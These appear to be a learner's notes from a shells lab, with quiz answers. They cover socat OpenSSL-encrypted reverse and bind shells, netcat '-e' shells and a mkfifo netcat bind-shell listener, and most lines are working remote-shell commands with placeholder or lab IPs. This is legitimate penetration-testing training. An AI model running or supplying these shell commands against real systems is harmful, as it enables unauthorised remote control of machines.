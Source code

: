 To connect back, we would use:
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`  

Attacker:
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`  

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.


The following image shows an OPENSSL Reverse shell from a Linux target. The target is on the right, and the attacker is on the left:
![[Pasted image 20240817195522.png]]

Q) What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called “encrypt.pem”.

- (normal reverse shell )
	`socat TCP-L:53 FILE:tty,raw,echo=0`  

- (encrypted using openssl )
	`socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:tty,raw,echo=0` 

Q) If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

- the regular syntax is this: 
  `socat TCP:10.10.10.5:53 EXEC:”bash -li”, pty, stderr, sigint, setsid, sane`

- encrypted using openssl:
  `socat OPENSSL:10.10.10.5:53,verify=0 EXEC:”bash -li”, pty, stderr, sigint, setsid, sane`

## **Common Shell Payloads**
 In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. For example, as a listener:

	`nc -lvnp <PORT> -e /bin/ bash`

Connecting to the above listener with netcat would result in a bind shell on the target. Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target. This is however seen as being very insecure, and it is not included in most version of netcat. On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

	mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.
